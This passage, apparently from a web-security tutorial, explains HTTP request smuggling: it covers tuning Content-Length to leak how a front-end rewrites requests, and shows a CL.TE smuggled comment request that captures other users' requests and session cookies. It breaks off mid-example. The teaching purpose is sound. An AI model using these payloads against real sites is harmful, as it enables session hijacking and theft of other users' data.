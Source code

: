 ### Note when performing this leakage attack
Since the final request is being rewritten, you don't know how long it will end up. The value in the `Content-Length` header in the smuggled request will determine how long the back-end server believes the request is. If you set this value too short, you will receive only part of the rewritten request; if you set it too long, the back-end server will time out waiting for the request to complete. Of course, the solution is to guess an initial value that is a bit bigger than the submitted request, and then gradually increase the value to retrieve more information, until you have everything of interest.

Once you have revealed how the front-end server is rewriting requests, you can apply the necessary rewrites to your smuggled requests, to ensure they are processed in the intended way by the back-end server.

## HTTP smuggling to capture other user's requests (cookie steal)
If the application contains any kind of functionality that allows you to store and later retrieve textual data, you can potentially use this to capture the contents of other users' requests. These may include session tokens or other sensitive data submitted by the user. Suitable functions to use as the vehicle for this attack would be comments, emails, profile descriptions, screen names, and so on.

To perform the attack, you need to smuggle a request that submits data to the storage function, with the parameter containing the data to store positioned last in the request. For example, suppose an application uses the following request to submit a blog post comment, which will be stored and displayed on the blog:
```http
POST /post/comment HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 154
Cookie: session=BOe1lFDosZ9lk7NLUpWcG8mjiwbeNZAO

csrf=SmsWiwIJ07Wg5oqX87FfUVkMThn9VzO0&postId=2&comment=My+comment&name=Carlos+Montoya&email=carlos%40normal-user.net&website=https%3A%2F%2Fnormal-user.net
```
Now consider what would happen if you smuggle an equivalent request with an overly long `Content-Length` header and the `comment` parameter positioned at the end of the request as follows:
```http
GET / HTTP/1.1
Host: vulnerable-website.com
Transfer-Encoding: chunked
Content-Length: 330

0

POST /post/comment HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 400
Cookie: session=BOe1lFDosZ9lk7NLUpWcG8mjiwbeNZAO

csrf=SmsWiwIJ07Wg5oqX87FfUVkMThn9VzO0&postId=2&name=Carlos+Montoya&email=carlos%40normal-user.net&website=https%3A%2F%2Fnormal-user.net&comment=
```
The `Content-Length` header of the smuggled request indicates that the body will be 400 bytes long, but we've only sent 144 bytes. In this case, the back-end server will wait for the remaining 256 bytes before issuing the response, or else issue a timeout if this doesn't arrive quick enough. As a result, when another request is sent to the back-end server down the same connection, the first 256 bytes are effectively appended to the smuggled request as follows:
```http
POST /post/comment HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 400
```